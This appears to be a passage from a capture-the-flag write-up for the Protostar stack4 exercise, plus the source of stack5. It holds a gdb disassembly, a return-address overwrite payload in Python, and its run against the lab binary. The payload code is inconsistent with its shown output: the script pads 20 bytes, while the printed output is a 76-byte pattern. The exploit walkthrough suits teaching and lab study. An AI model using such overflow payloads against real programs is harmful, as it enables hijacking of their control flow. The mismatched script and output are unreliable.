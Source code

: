 ```bash
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
```

I ran this with input of `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ` and found that `eip` tried to point to `0x54545454` so now we just need to replace `TTTT` with desired address of `0x080483f4`/`\xf4\x83\x04\x08`.

Python to make overflow string:
```python
buffer = "A"*20
taddr = "\xf4\x83\x04\x08"
print buffer + taddr
```

Output of python file:
```bash
user@protostar:/tmp$ cat stack4
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS�
user@protostar:/tmp$
```

Pipe this into the program, and we have our solution:
```bash
user@protostar:/tmp$ python stack4.py | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

## Stack5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
